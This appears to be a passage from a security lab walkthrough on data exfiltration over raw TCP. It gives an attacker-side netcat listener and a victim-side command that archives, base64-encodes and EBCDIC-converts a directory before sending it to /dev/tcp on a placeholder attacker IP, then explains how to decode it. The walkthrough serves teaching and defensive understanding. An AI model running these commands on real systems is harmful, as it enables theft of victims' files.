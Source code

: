 Not recommended if in a well-secured environment. This exfiltration type is easy to detect because we rely on non-standard protocols.

**Attacker**

	nc -lvp 8080 > /tmp/task4-creds.data

**Victim**

	tar zcf - [file directory]/ | base64 | dd conv=ebcdic > /dev/tcp/[Attacker IP]/8080

Let's break down the previous command and explain it:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080

**Attacker**

	dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
	tar xvf task4-creds.tar

The following is the explanation of the previous command:

1. We used the dd command to convert the received file to ASCII  representation. We used the task4-creds.data as input to the dd command. 
2. The output of the dd command will be passed to the base64 to decode it using the -d argument.
3. Finally, we save the output in the task4-creds.tar  file.
4. We used the tar command to unarchive the file with the xvf arguments.
5. The x is for extracting the tar file, the v for verbosely listing files, and the f is for using an archive file.